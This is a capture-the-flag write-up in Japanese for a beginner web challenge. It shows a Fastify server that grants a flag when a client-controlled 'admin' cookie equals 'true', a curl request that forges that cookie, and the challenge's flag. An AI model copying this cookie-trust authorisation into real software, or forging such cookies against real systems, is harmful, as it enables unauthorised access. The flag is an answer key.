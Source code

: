 # 🍪:Web:100pts
ある条件を満たすとフラグが得られるようです  
```javascript
import Fastify from "fastify";
import fastifyCookie from "@fastify/cookie";

const fastify = Fastify();
fastify.register(fastifyCookie);

fastify.get("/", async (req, reply) => {
  reply.setCookie('admin', 'false', { path: '/', httpOnly: true });
  if (req.cookies.admin === "true")
    reply.header("X-Flag", process.env.FLAG);
  return "can you get the flag?";
});

fastify.listen({ port: process.env.PORT, host: "0.0.0.0" });
```
_*完全なソースコードは以下からダウンロード可能です。_  

[cookie.tar.gz](cookie.tar.gz)  

[http://34.170.146.252:6407](http://34.170.146.252:6407)  

# Solution
ソースとURLが渡される。  
アクセスすると`can you get the flag?`と表示される。  
```bash
$ curl http://34.170.146.252:6407
can you get the flag?
```
ソースより`req.cookies.admin`が`true`であると`X-Flag`ヘッダでフラグが返されるようだ。  
```bash
$ curl http://34.170.146.252:6407 -H 'Cookie: admin=true' -I
HTTP/1.1 200 OK
x-flag: Alpaca{7h3_n4m3_c0m35_fr0m_B3cky}
content-type: text/plain; charset=utf-8
set-cookie: admin=false; Path=/; HttpOnly; SameSite=Lax
content-length: 21
Date: Mon, 03 Mar 2025 02:26:21 GMT
Connection: close
Keep-Alive: timeout=72
```
cookieをつけてcurlするとflagが得られた。  

## Alpaca{7h3_n4m3_c0m35_fr0m_B3cky}